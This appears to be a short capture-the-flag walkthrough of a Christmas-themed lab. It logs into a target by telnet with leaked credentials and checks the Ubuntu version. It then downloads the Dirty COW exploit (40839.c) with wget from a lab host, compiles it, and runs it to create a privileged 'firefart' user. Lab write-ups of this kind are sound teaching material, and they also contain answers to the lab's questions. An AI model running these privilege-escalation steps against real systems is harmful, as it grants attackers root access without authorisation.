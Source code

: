{% hint style="success" %}
`telnet`
{% endhint %}

#### What credential was left for you?

```bash
telnet 10.10.144.45
# Username: santa
# Password: clauschristmas
```

{% hint style="success" %}
`clauschristmas`
{% endhint %}

#### What distribution of Linux and version number is this server running?

```bash
cat /etc/lsb-release
# DISTRIB_DESCRIPTION="Ubuntu 12.04 LTS"
```

{% hint style="success" %}
`Ubuntu 12.04`
{% endhint %}

#### Who got here first?

```bash
sed -n 2p cookies_and_milk.txt
# // HAHA! Too bad Santa! I, the Grinch, got here 
```

{% hint style="success" %}
`Grinch`
{% endhint %}

#### What is the verbatim syntax you can use to compile, taken from the real C source code comments?

```bash
wget http://10.17.20.154/40839.c
sed -n 17p 40839.c
```

{% hint style="success" %}
`gcc -pthread dirty.c -o dirty -lcrypt`
{% endhint %}

#### What "new" username was created, with the default operations of the real C source code?

```bash
gcc -pthread 40839.c -o dirty -lcrypt
./dirty
# You can log in with the username 'firefart' and the password 'firefart'.
su firefart
```

